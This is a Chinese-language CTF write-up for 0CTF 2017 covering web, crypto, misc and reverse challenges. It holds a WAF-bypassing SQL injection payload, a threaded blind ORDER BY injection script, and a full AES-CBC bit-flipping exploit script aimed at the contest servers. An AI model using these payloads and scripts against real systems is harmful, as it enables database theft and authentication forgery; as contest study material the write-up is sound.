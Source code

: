 ```yaml
---
title: 0ctf2017 writeup from cnss
pubDatetime: 2017-03-19 20:00:00
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: 0ctf2017_writeup
---
```


结果高校第 9, 水啊

<!--more-->

### Web

#### simplesqlin

`id`先丢 sqlmap,发现能跑出来数据库名`news`

`order by 4` 500, `order by 3`正常

绕 waf 试试看, 发现简单的 select,from 通过%0b 即可绕过

`select` -> `sele%0bct`

直接 `id=-1 union sel%0bect 1,flag,3 fro%0bm news.flag`猜测表名和字段为 flag

`flag{W4f_bY_paSS_f0R_CI}`

#### Temmo's Tiny Shop

中午起床解这个题, login 那里上午有 bug,直接 admin 密码空可以进(其实这里面有竞争条件去买 8000 的 hint),看到 info 提示的内容(中间还换过一个表名)

`OK! Now I will give some hint: you can get flag by use \`select flag from ce63e444b0d049e9c899c9a0336b3c59\``

然后写个脚本测试一下 waf 的字符

```python
#!/usr/bin/python3
import re
import string
import requests as r

url = 'http://202.120.7.197/app.php?action=search&keyword=INT&order='
headers = {
	'Cookie': "PHPSESSID=tbuidum4os7k89q7dun6oms200",
}
NOWAF = []
WAF = []
for i in string.punctuation + string.ascii_letters:
	getter = r.get(url + i, headers=headers).text
	if 'error occurs or no result here' in getter:
		NOWAF.append(i)
		print('NoWAF: ' + i)
	elif 'WAF' in getter:
		WAF.append(i)
		print('WAF: ' + i)
	else:
		print(getter)
		exit()
print(WAF)
print(NOWAF)
```

发现只有`#,()`和字母可以用,关键词没测,用的时候再说

尝试了一些传参数的位置, 因为不能单引号, 也绕不过这个 waf, 下手只能在搜索的`order`位置上,先通过`=1`和`=id`确认是`order by`注入,通过顺序不同考虑 bool 注入

注册一个新号防干扰, 买 1600 和 300 的, 通过利用`field(price, 1600, 300)`和`field(price, 1600, 1)`返回的 goods 顺序不同,构造 payload

`order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))`

因为是 like, 不跑 2 分, 上多线程

```python
import requests as r
import gevent
from gevent.monkey import *

url = 'http://202.120.7.197/app.php?action=search&keyword=&order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))'
def run(k):
#	print('----%d----' % k)
	a = 0
	for i in range(0, 255):
		if a == 4:
			break
		s = r.get(url % (k,hex(i)), headers=headers).text
	#	print(s)
		if '"goods":[{"id":"6","' not in s:
			print('%d: %s' % (k, chr(i)))
			a += 1
		else:
			continue

gevent.monkey.patch_socket()
gevent.monkey.patch_ssl()

threads = [gevent.spawn(run, i) for i in range(6,31)]
gevent.joinall(threads)
```

拿到每一位去掉`%_`,得到大小写不明的`flag{r4ce c0nditi0n i5 excited}`

尝试用 ascii 判断 ascii 码, 发现(长度)被 WAF, 先试一下 flag 对不对再说

中间补上`_`, 小写尝试一下, flag 正确

### Misc

#### Welcome

IRC 即时聊天，访问 freenode 网站进入聊天室，获得 flag
http://webchat.freenode.net/?randomnick=0&channels=#0ctf2017

### Crypto

#### integrity

题目流程：

1. 首先随机 key
2. register： 输入 name，首先对 name 补足后缀，随机 iv，返回 AES_CBC( md5(name) || name ) 作为 secret
3. login： 用户输入 secret，按 register 逆着解码得到 name，若为 admin，则给出 flag

其中限制：输入的 name 长度不大于 32，且对 name 有 strip() 操作。

我们的目标为 admin，对此构造 name，并预先计算补全与 md5 值。

```python
name = "admin" + "\x0b" * 11 + suffix  # suffix 为任意长度小于 16 的字符串，我取的是 suffix = "admin"）
goal = "admin"  # 目标为 admin

pad_name = pad(name)  # "admin" + "\x0b" * 11 + "admin" + "\x0b" * 11
pad_goal = pad(goal)  # "admin" + "\x0b" * 11

md5_name = md5(name).digest()
md5_goal = md5(goal).digest()
```

提交 name 后获得一个代表了 64 字节的 secret，取出 iv 和 前两组密文，即前 48 字节，有一组 iv，一组 md5 值，一组一半的 name（即 pad_goal）。
其中第三组已符合要求，对于第二组，修改第一组的 iv 进行比特翻转攻击：iv = iv ⊕ md5_name ⊕ md5_goal
三组重新组合后 login 即可获取 flag

完整脚本：

```python
import hashlib
import socket
import time
import binascii


BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
def md5(s):
    return hashlib.md5(s.encode()).digest()
def send(m):
    if isinstance(m, str):
        m = m.encode()
    print("send:", m)
    s.send(m)
def rec():
    m = s.recv(1024)
    print("recv:", m)
    return m


s = socket.socket()
s.connect(('202.120.7.217', 8221))
time.sleep(0.5)
md5_goal = [int(x) for x in md5("admin" + "\x0b" * 11)]
md5_name = [int(x) for x in md5("admin" + "\x0b" * 11 + "admin" + "\x0b" * 11)]

rec()
send("r\n")
send("admin" + "\x0b" * 11 + "admin\n")
rec()

data = rec().decode().replace('\n', '')
secret = [0] * 48
for i in range(0, 48):
    secret[i] = int(data[(i << 1): (i << 1) + 2], 16)
new_secret = [secret[i] ^ md5_goal[i] ^ md5_name[i] for i in range(16)] + secret[16:]
ans = b""
for x in new_secret:
    ans += bytes([x])

send("l\n")
send(binascii.b2a_hex(ans) + b"\n")
rec()
rec()
s.close()

```

### Reverse

#### Choices

看了一下 text 里的命令行，这是是一个 pass，llvm 的 pass，估计是做混淆的，看到 flatten 这个函数名，估计是拿 ollvm 改了改，获得源码一对照就知道改了什么地方。

Flatten 算法实现http://ac.inf.elte.hu/Vol_030_2009/003.pdf ,他修改的地方就是原本自动修改的控制控制流的值变成由用户输入了，那么我还原出这个值序列即可，通过逆向我们知道了值序列的生成算法，那么我们就可以生成一个值序列了。以这个作为输入即可。
